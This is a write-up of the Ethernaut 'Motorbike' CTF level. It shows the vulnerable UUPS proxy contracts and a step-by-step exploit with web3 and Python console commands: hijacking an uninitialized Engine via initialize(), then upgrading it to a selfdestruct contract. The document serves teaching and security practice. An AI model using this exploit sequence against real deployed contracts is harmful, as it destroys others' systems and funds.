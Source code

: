# 25 - Motorbike

## Challenge

Ethernaut's motorbike has a brand new upgradeable engine design.

Would you be able to `selfdestruct` its engine and make the motorbike unusable?

Things that might help:

- [EIP-1967](https://eips.ethereum.org/EIPS/eip-1967)
- [UUPS](https://forum.openzeppelin.com/t/uups-proxies-tutorial-solidity-javascript/7786) upgradeable pattern
- [Initializable](https://github.com/OpenZeppelin/openzeppelin-upgrades/blob/master/packages/core/contracts/Initializable.sol) contract

```js
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "openzeppelin-contracts-06/utils/Address.sol";
import "openzeppelin-contracts-06/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    
    struct AddressSlot {
        address value;
    }
    
    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(
            abi.encodeWithSignature("initialize()")
        );
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`. 
    // Will run if no other function in the contract matches the call data
    fallback () external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }

    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
    function _upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }
    
    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");
        
        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

## Summary

We first check what is this UUPS (Universal Upgradeable Proxy Standard) pattern. Recall in last level we have Transparent proxy pattern, where proxy contract has the upgrade logic. **In a UUPS proxy pattern, the contract upgrade logic will also be coded in the implementation contract.**

![UUPS](https://cdn.hashnode.com/res/hashnode/image/upload/v1662815219918/duvwx0juR.png?auto=compress,format&format=webp)

Reading the EIP-1967 doc, we get to know that the address of the logic contract is saved in a specific storage slot of the proxy contract. The slot is calculated by `keccak256("eip1967.proxy.implementation") - 1`. The logic contract is initialized in the constructor of the proxy contract. The fallback function of the proxy contract will delegate the call to the logic contract.

In this level, our goal is to call `selfdestruct`, but current `Engine` contract has no such function. Therefore, the goal is clearly to somehow upgrade the contract to a new version that has `selfdestruct` function. 

```js
// Upgrade the implementation of the proxy to `newImplementation`
// subsequently execute the function call
function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
    _authorizeUpgrade();
    _upgradeToAndCall(newImplementation, data);
}
```

We need to call `upgradeToAndCall` function to upgrade the contract.  This requires `_authorizeUpgrade`, so we need to be the `upgrader` to call this function. The only place we can modify this variable is here:

```js
function initialize() external initializer {
    horsePower = 1000;
    upgrader = msg.sender;
}
```

This function is supposed to be called by `Motorcycle` contract upon initialization, and this `initializer` modifier is supposed to prevent re-initialization. However, we can bypass this by calling `initialize` function directly. Why so? Because it's called using `delegatecall`, and we know its context preservation property: the caller contract's storage slots are updated instead of callee's. Therefore, we can call `initialize` function directly to update `upgrader` variable. The rest is easy as mentioned before.

## Walkthrough

First, we need to get the address of `Engine` contract:

```js
> engine = await web3.eth.getStorageAt(contract.address, '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc')
'0x00000000000000000000000011eba4ee24111e0486b88e102bb5d9b27e78273a'
> engine = "0x11eba4ee24111e0486b88e102bb5d9b27e78273a"
```

Now we call `initialize` at `Engine`'s address, and we can verify we are `upgrader`:

```js
> await web3.eth.sendTransaction({ from: player, to: engine, data: web3.eth.abi.encodeFunctionSignature("initialize()") })
{blockHash: '0x6170738ef3b4548b8f414af52d745c8767e5730220b1e4152eb4a8545c1ecf8e', blockNumber: 9429705, contractAddress: null, cumulativeGasUsed: 1445980, effectiveGasPrice: 2500000849, …}
> await web3.eth.call({from: player, to: engine, data: web3.eth.abi.encodeFunctionSignature("upgrader()")}).then(v => '0x' + v.slice(-40).toLowerCase()) === player.toLowerCase()
true
```

Now we go ahead to create an attack contract that calls `selfdestruct`:

```py
# import cheb related
from cheb3 import Connection
from cheb3.utils import *

abi, bytecode = compile_sol('''
pragma solidity <0.7.0;

contract Attack {
    function attack() public {
        selfdestruct(address(0));
    }
}
''',
solc_version="0.6.12",
base_path="Ethernaut/node_modules/"
)['Attack']
attackContract = conn.contract(account, abi=abi, bytecode=bytecode)
attackContract.deploy()
```

```bash
2023-07-29 13:41:44.990 | DEBUG    | cheb3.contract:deploy:94 - Deploying contract ...
2023-07-29 13:41:50.606 | INFO     | cheb3.contract:deploy:99 - The contract is deployed at 0x5bB7E9b41D2B0410a675F36af79B2510D3bfB734
```

Next, replace the contract address of implementation slot in proxy with this attack contract. This requires us to call `function upgradeToAndCall(address newImplementation, bytes memory data)`: (`cheb3` at this moment doesn't support unsafe `sendTransaction`, so we still use js api for now)

```py
>>> attackAddr = "0x5bB7E9b41D2B0410a675F36af79B2510D3bfB734"
>>> attackData = encode_with_signature("attack()")
'0x9e5faafc'
>>> upgradeData = encode_with_signature("upgradeToAndCall(address,bytes)", attackAddr, bytes.fromhex(attackData[2:]))
'0x4f1ef2860000000000000000000000005bb7e9b41d2b0410a675f36af79b2510d3bfb734000000000000000000000000000000000000000000000000000000000000004000000000000000000000000000000000000000000000000000000000000000049e5faafc00000000000000000000000000000000000000000000000000000000'
```

```js
> await web3.eth.sendTransaction({from: player, to: engine, data: upgradeData})
{blockHash: '0x1b0875f85031017e0a1be2829e397af30dcb7e6ba8aeb2b0689cdfc4ed1b80d9', blockNumber: 9429775, contractAddress: null, cumulativeGasUsed: 1765592, effectiveGasPrice: 2500000075, …}
```

Finally, submit the instance to pass the level. At this moment, the `Engine` is destroyed, and `Motorbike` is now useless. Since upgrade logic is all inside logic contract, `Motorbike` cannot be fixed.

## Afterword

The advantage of following an UUPS pattern is to have very minimal proxy to be deployed. The proxy acts as storage layer so any state modification in the implementation contract normally doesn't produce side effects to systems using it, since only the logic is used through delegatecalls.

This doesn't mean that you shouldn't watch out for vulnerabilities that can be exploited if we leave an implementation contract uninitialized.

This was a slightly simplified version of what has really been discovered after months of the release of UUPS pattern.

Takeways: never leave implementation contracts uninitialized ;)